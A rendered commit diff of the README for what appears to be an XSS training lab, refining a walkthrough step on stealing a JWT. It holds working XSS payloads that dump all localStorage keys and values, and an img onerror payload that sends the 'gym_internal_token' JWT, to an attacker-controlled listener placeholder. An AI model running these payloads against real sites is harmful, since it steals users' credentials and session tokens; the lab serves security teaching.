

Before and after one commit to hipoloco/xsslab, a Markdown page: README.md, the part around one of its changes. Shown at 82% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Refine JWT discovery walkthrough

````diff
--- a/README.md
+++ b/README.md
@@ -311,9 +311,65 @@ On the attacker machine, start a simple listener for `GET` requests:
 python3 -m http.server 8000
 ```
 
-### Step 9: steal the internal JWT from the worker browser
+### Step 9: enumerate `localStorage` from the worker browser
 
-Submit a payload that reads the JWT from `localStorage` and sends it to the attacker-controlled server:
+At this point you do not yet know how the internal credential is stored, so the realistic move is to enumerate browser storage first.
+
+Submit a payload that leaks every key and value present in `localStorage`:
+
+```html
+<script>
+for (let i = 0; i < localStorage.length; i += 1) {
+  const key = localStorage.key(i);
+  const value = localStorage.getItem(key) || '';
+  new Image().src =
+    'http://attacker_machine_ip:8000/collect?key=' +
+    encodeURIComponent(key) +
+    '&value=' +
+    encodeURIComponent(value);
+}
+</script>
+```
+
+Same-host variation:
+
+```html
+<script>
+for (let i = 0; i < localStorage.length; i += 1) {
+  const key = localStorage.key(i);
+  const value = localStorage.getItem(key) || '';
+  new Image().src =
+    'http://docker_host_gateway_ip:8000/collect?key=' +
+    encodeURIComponent(key) +
+    '&value=' +
+    encodeURIComponent(value);
+}
+</script>
+```
+
+Expected on the attacker machine:
+
+- one or more incoming `GET /collect`
+- each request contains a `key=...` and `value=...`
+
+### Step 9.1: identify the JWT-shaped value
+
+From those requests, look for a value with the usual JWT structure:
+
+```text
+header.payload.signature
+```
+
+In this lab, that discovery should reveal:
+
+- a `localStorage` key named `gym_internal_token`
+- a value beginning with `eyJ...`
+
+At that point you have justified, from observation, both the storage key and the fact that the privileged browser keeps a reusable credential accessible to JavaScript.
+
+### Step 10: confirm the JWT theft explicitly
+
+Once you already know the key name, you can switch to a shorter payload that steals only that JWT:
 
 ```html
 <img src=x onerror="new Image().src='http://attacker_machine_ip:8000/collect?jwt='+encodeURIComponent(localStorage.getItem('gym_internal_token')||'missing')">
````
Also changed, not shown: other parts of README.md (+59 -10 lines).
